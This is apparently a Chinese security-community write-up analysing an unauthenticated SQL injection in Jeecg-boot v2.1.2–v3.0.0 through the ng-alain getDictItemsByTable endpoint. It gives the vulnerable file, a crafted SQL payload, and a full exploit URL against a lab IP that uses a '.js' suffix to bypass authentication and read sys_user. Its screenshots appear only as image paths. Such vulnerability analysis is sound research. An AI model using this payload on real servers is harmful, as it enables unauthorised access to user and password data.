






# Jeecg-boot v2.1.2-v3.0.0 后台未授权SQL注入漏洞 分析 - 先知社区

Jeecg-boot v2.1.2-v3.0.0 后台未授权SQL注入漏洞 分析

- - -

sangfor华东天勇战队[@pant0m](https://github.com/pant0m)  
源码位置： [https://github.com/jeecgboot/jeecg-boot/releases/tag/v3.0.0](https://github.com/jeecgboot/jeecg-boot/releases/tag/v3.0.0)  
sqli接口

漏洞点： src/main/java/org/jeecg/modules/ngalain/controller/NgAlainController.java

到达的mapper层的sql语句为

也就证明可以控制sql语句  
[http://192.168.2.2:8081/jeecg-boot/sys/ng-alain/getDictItemsByTable/sys\_user/username/password](http://192.168.2.2:8081/jeecg-boot/sys/ng-alain/getDictItemsByTable/sys_user/username/password)

未授权绕过

通过分析，整体框架使用jwt+shiro验证

但是通过分析发现

此类的后缀接口是不需要权限校验的  
构造payload

SELECT \*, ' as "label",x.js as "value" from ' FROM sys\_user  
只需要构造如图的sql查询即可  
那么接口的请求即为

[http://192.168.2.2:8081/jeecg-boot//sys/ng-](http://192.168.2.2:8081/jeecg-boot//sys/ng-)  
alain/getDictItemsByTable/'%20from%20sys\_user/\*,%20'/x.js

